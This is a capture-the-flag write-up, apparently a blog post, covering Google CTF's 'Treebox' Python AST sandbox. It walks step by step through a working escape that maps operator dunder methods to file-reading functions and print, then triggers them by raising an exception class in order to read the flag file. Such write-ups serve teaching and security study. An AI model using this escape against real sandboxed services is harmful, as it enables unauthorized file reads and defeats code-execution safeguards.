 ```yaml
---
title: "Treebox"
date: 2022-08-19T10:04:36+05:30
tags:
- Google CTF
- CTF
- Python
- AST
- Sandbox Escape
draft: false
---
```


This challenge asks for python code as an input, converts it into an AST (abstract syntax tree) and if there aren't any function calls or imports, executes the code.

Our goal here is to avoid explicitly calling any functions yet reading the flag located at `flag`. We also can't import any modules explicitly.

The source code provided with the challenge imports the `sys` module giving us an opportunity to chain its functionalities.

To do so, we find all the modules in `sys.modules` that have a `get_data` like
function in their `__loader__` attribute. We run the following locally:

``` python
import sys

for name, handle in sys.modules.items():
    if loader := getattr(handle, '__loader__'):
        for loader_function_name in dir(loader):
            if 'get_data' in loader_function_name:
                print(f"sys.modules['{name}'].__loader__.{loader_function_name}")
```

There are a lot of modules that have the `get_data`  From the output we get, this looks the most promising:

```python
sys.modules["code"].__loader__.get_data
```

Now we can slowly assemble our exploit.

{{< collapsable-explanation >}}

> Note: To run this locally we must `import sys`

We create a class called `Read` that inherits from the `BaseException` class.

```python
class Read(BaseException):
```
We define the members of the class as the following:

Set the addition operator to the `str` function to stringify bytes-like
objects.

```python
    __add__ = str
```

Set the division operator to os.loader.get_data method
which can be used to read the raw bytes from a file.
```python
    __truediv__ = sys.modules["code"].__loader__.get_data
```

Set the indexing operator to print, which we'll use to print the flag

```python
    __getitem__ = print
```

Now we need to detonate these operators without calling a function.
The best way is to define an `__init__` constructor method that is called implicitly when the
class is created.

Through this, we read the raw bytes of the file "flag" stringify it and finally print it.

```python
    def __init__(self):
        self[self + self / "flag"]
```

With all of that setup out of the way, we can instantiate the class by raising it as an exception.

```python
raise Read
```

```python
class Read(BaseException):
    __add__ = str
    __truediv__ = sys.modules["code"].__loader__.get_data
    __getitem__ = print
    def __init__(self):
        self[self + self / "flag"]

raise Read
```

{{< / collapsable-explanation >}}

### Update: 2025-09-15

I was lurking through my past writeups, here's an even easier way to achieve the
same file read independent of the `sys` module.

```python
class Read(BaseException):
    __add__ = list
    __truediv__ = open
    __getitem__ = print
    def __init__(self):
        self[self + self / "flag"]

raise Read
```
